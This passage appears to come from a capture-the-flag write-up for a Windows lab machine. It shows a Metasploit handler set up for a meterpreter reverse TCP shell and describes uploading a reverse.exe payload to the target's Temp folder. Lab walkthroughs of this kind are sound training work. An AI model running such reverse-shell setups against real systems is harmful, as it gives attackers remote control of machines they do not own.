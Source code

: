 {: .nolineno }

- Before executing the payload on the target machine, we need to set up a
  meterpreter listener that will establish a stable reverse shell:

```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.11.121.104
set LPORT 4446
run
```

Those steps can be seen in the screenshot below:

![payload created and uploaded to the target
machine](hackpark-revshell-uploaded-to-vm.webp){: width="700" height="400" }

There are a few hints within the room, for example letting us know that
`c:\windows\Temp` is a good place to upload the payload to and it is exactly
where I uploaded reverse.exe with success.

###



